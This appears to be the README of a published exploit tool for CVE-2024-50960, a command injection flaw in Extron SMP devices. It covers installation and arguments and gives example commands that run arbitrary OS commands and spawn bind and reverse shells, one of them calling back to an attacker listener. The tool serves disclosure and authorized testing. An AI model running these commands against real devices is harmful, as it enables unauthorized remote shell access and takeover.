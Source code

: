 ![alt text](https://github.com/layer8secure/extron-smp-inject/blob/main/extron_inject.png?raw=true)

# CVE-2024-50960: Extron SMP OS Command Injection

By Ryan Roth [@f1rstm4tter](https://twitter.com/f1rstm4tter)
[www.layer8security.com](http://www.layer8security.com)

Advisory: [CVE-2024-50960: Exploiting Extron SMP Command Injection](https://ryanmroth.com/articles/exploiting-extron-smp-command-injection)

## Overview

This tool exploits [CVE-2024-50960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-50960) — OS command injection vulnerabilities in Extron SMP devices. It allows web admins to execute arbitrary commands and spawn shells (both bind and reverse) on the underlying OS.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging](#logging)
- [License](#license)

## Installation

To use this tool, you need Python 3.x and `pip` installed. Clone the repository and install the required packages:

```bash
git clone https://github.com/yourusername/extron-smp-inject.git
cd extron-smp-inject
pip install -r requirements.txt
```

## Usage

To run the tool, use the following command:

```bash
python extron_smp_inject.py <action> [options]
```

### Arguments

- `action`: The action to perform (either `command`, `bind`, or `reverse`).
- `rhost`: The target IP address (required).
- `rport`: The target port (80 or 443) (required).
- `--username`: The username for authentication (default: `admin`).
- `--password`: The password for authentication.
- `-v` or `--verbose`: Enable verbose logging.
- `--log-file`: Specify a log file to write logs to.

### Examples

**Execute an arbitrary command:**

```bash
python extron_smp_inject.py command --password admin whoami 192.168.1.1 443
```

**Spawn a bind shell:**

```bash
python extron_smp_inject.py bind --password admin 4444 192.168.1.1 443
```

**Spawn a reverse shell:**

```bash
python extron_smp_inject.py reverse --password admin 192.168.0.1 4444 192.168.1.1 443
```

## Logging

The tool supports logging output to the console and optionally to a file. You can enable verbose logging using the `-v` option, which provides more detailed output during execution.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer

Ensure you have proper authorization before testing devices. Unauthorized access is illegal.
